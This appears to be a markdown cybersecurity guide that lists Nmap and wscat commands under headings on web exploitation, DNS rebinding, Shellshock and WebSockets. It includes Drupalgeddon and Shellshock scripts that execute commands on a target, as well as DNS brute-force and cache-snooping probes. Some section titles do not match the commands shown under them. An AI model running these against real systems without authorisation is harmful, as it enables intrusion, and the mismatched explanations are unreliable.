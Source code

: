 
```markdown
# **Cybersecurity Portfolio: A Comprehensive Guide**

## Table of Contents
1. [Introduction](#introduction)
2. [Modern Web Exploitation Techniques](#modern-web-exploitation-techniques)
3. [DNS Rebinding & Prevention](#dns-rebinding-and-prevention)
4. [Advanced Techniques: Second-Order Attacks & Command Injection](#second-order-attacks-and-command-injection)
5. [Exploring Real-Time Threats: WebSockets & Their Vulnerabilities](#websockets-and-websocket-attacks)

## Introduction <a name="introduction"></a>
Welcome to your go-to guide for diving deep into the world of cybersecurity. Created for professionals by professionals, this guide will illuminate the landscape of modern web exploitation, DNS rebinding, and more, with practical tools and tactics to boost your threat-detection capabilities.

## Modern Web Exploitation Techniques <a name="modern-web-exploitation-techniques"></a>
Understanding the ins and outs of how attackers can exploit web vulnerabilities is fundamental for defending against them. Here's a practical example to get you started:

**Command:** 
```bash
nmap -p80,443 --script http-vuln-* target.com
```
**Purpose:** This Nmap command scans for common vulnerabilities in web applications on the specified ports.

**Advanced Command:**
```bash
nmap -p80,443 --script http-vuln-cve2014-3704 --script-args http-vuln-cve2014-3704.cmd="uname -a",http-vuln-cve2014-3704.uri="/drupal" target.com
```
**Purpose:** This command uses Nmap to check if the target Drupal site is vulnerable to the CVE-2014-3704 (also known as 'Drupalgeddon') and attempts to run a command.

![Screenshot 1](#screenshot-1)

## DNS Rebinding & Prevention <a name="dns-rebinding-and-prevention"></a>
DNS rebinding represents a tricky threat in network security. By mastering prevention techniques, you enhance your cybersecurity toolkit significantly.

**Command:**
```bash
nmap --script dns-brute target.com
```
**Purpose:** Executes a DNS brute-force attack, illustrating the need for robust DNS security measures.

**Advanced Command:**
```bash
nmap --script dns-cache-snoop.nse --script-args 'dns-cache-snoop.mode=timed,dns-cache-snoop.domains={target.com,www.target.com}' 
```
**Purpose:** This command uses Nmap to perform a DNS cache snooping attack, which can reveal if a DNS server has recently resolved specific domains, aiding in the gathering of reconnaissance information.

![Screenshot 2](#screenshot-2)

## Advanced Techniques: Second-Order Attacks & Command Injection <a name="second-order-attacks-and-command-injection"></a>
Delve into the complexities of second-order attacks where the payload activates after initial deployment—a sophisticated strategy often overlooked.

**Command:**
```bash
nmap --script http-shellshock --script-args uri=/cgi-bin/bin,target=192.168.1.100
```
**Purpose:** This command checks for vulnerabilities to the infamous Shellshock bug in specified targets.

**Advanced Command:**
```bash
nmap --script http-shellshock --script-args 'http-shellshock.uri=/cgi-bin/bin,http-shellshock.cmd="ls -la",http-shellshock.header="User-Agent"' target.com
```
**Purpose:** This command not only checks for Shellshock vulnerability but also attempts to run a command (`ls -la`) on the target, demonstrating the potential impact of the vulnerability.

![Screenshot 3](#screenshot-3)

## Exploring Real-Time Threats: WebSockets & Their Vulnerabilities <a name="websockets-and-websocket-attacks"></a>
In a world where real-time interaction is the norm, understanding the potential security risks of WebSockets is crucial for any cybersecurity arsenal.

**Command:**
```bash
wscat -c ws://target.com/socket
```
**Purpose:** Connects to a WebSocket, demonstrating both the utility and potential security holes of real-time web communication.

**Advanced Command:**
```bash
wscat -x '{"type":"ping"}' -c ws://target.com/socket
```
**Purpose:** This command sends a JSON payload to the WebSocket, which can be used to test how the server handles different types of input and potentially uncover vulnerabilities.

![Screenshot 4](#screenshot-4)

---


